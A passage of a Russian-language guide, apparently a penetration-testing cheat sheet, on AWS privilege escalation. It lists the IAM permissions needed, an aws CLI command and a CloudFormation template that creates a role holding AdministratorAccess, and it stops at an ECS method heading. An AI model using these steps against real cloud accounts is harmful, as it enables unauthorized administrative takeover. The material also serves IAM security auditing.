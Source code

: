 
## 🚀 Дополнительные методы эскалации привилегий

### 5. **CloudFormation-based Escalation**

#### Требуемые права:
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "cloudformation:CreateStack",
                "cloudformation:UpdateStack",
                "iam:PassRole",
                "iam:CreateRole",
                "iam:AttachRolePolicy"
            ],
            "Resource": "*"
        }
    ]
}
```

#### Метод атаки:
```bash
# Создание CloudFormation стека с повышенными правами
aws cloudformation create-stack \
    --stack-name privilege-escalation \
    --template-body file://malicious-template.yaml \
    --capabilities CAPABILITY_IAM
```

#### CloudFormation шаблон для эскалации:
```yaml
Resources:
  PrivilegeEscalationRole:
    Type: AWS::IAM::Role
    Properties:
      AssumeRolePolicyDocument:
        Version: '2012-10-17'
        Statement:
          - Effect: Allow
            Principal:
              AWS: !Sub 'arn:aws:iam::${AWS::AccountId}:root'
            Action: sts:AssumeRole
      ManagedPolicyArns:
        - arn:aws:iam::aws:policy/AdministratorAccess
```

### 6. **ECS Task Escalation**
